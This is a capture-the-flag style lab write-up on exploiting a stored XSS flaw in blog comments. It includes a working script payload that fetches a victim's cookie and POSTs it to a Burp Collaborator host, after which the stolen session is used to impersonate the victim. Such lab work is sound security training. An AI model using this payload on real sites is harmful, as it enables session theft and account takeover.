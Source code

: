 *This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.*

Input a test comment to see how the page will respond:
![Screenshot 2024-05-17 at 9.10.26 AM](images/Screenshot%202024-05-17%20at%209.10.26%20AM.png)
I tried the following payload to see if if exfiltrating the cookie was possible:
`<script>alert(document.cookie)</script>`
This was the result:
![Screenshot 2024-05-17 at 9.24.38 AM](images/Screenshot%202024-05-17%20at%209.24.38%20AM.png)
I then decided to use Burp's Collaborator to aid me in stealing a user's cookie. I had to store the XSS payload in the comment section, ensuring that once the comment was viewed by the victim, it will 
1. trigger the retrieval and display of the victim's cookie
2. trigger and out-of-band interaction with the Collaborator server to display to me the victim's cookie
I entered the following payload in the comment section:
```
<script>
fetch('https://8oxyne76m10vkx4gw2l20y93wu2mqfe4.oastify.com',{
method: 'POST',
mode: 'no-cors',
body:document.cookie
});
</script>
```
I received the following:
![Screenshot 2024-05-17 at 11.02.44 AM 2](images/Screenshot%202024-05-17%20at%2011.02.44%20AM%202.png)
I sent the request to login (using invalid credentials) and pasted both the `secret` and `session` cookies in, which solved the lab:
![Screenshot 2024-05-17 at 11.06.52 AM](images/Screenshot%202024-05-17%20at%2011.06.52%20AM.png)
